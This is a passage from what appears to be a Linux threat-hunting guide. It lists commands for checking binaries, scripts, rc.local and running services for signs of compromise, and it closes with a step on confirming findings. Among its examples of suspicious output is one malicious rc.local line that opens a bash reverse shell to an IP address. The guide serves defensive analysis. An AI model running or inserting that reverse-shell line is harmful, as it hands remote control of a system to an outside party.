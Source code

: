 ```bash
ls -la /usr/local/bin/
```

Suspicious output example:

```bash
-rwxr-xr-x 1 root root  1243 Jun 11 11:05 updater.sh
```
**What to look for:** Scripts or binaries with recent dates, strange names, or executable permissions on suspicious files

### find /opt -type f -iname "*.sh"

Searches for `.sh` scripts in the entire `/opt` directory, commonly used for auxiliary storage.

```bash
find /opt -type f -iname "*.sh"
```

Suspicious output example:
```bash
/opt/.backup/install.sh
/opt/data/cleanup.sh
```
**What to look for:** Scripts with ambiguous or malicious names (check.sh, cleaner.sh, update.sh)

### cat /etc/rc.local

Shows the contents of the rc.local startup script, if enabled.

```bash
cat /etc/rc.local
```

Malicious line example:

```bash
bash -i >& /dev/tcp/192.168.1.50/9001 0>&1
```
**What to look for:** Commands that run scripts at system startup or redirections to external IPs

### systemctl list-units --type=service --state=running

Shows active services managed by `systemd`.

```bash
systemctl list-units --type=service --state=running
```

Suspicious output example:

```bash
logrotate-backup.service loaded active running Backup Service
```
**What to look for:** Services with uncommon or duplicate names, or scripts that shouldn't start with the system

## Step 8: Confirm Findings and Take Action
Document your findings with screenshots or evidence, list what you would remove, block, and reinforce, and if possible, share your findings with a colleague for validation.

**Key questions:**
- Can you explain what's happening?
- Did you identify processes, users, tasks, or connections involved?

**In summary:** This methodology is professional, educational, and applicable to real environments. Tools can help, but the analyst's judgment is irreplaceable.
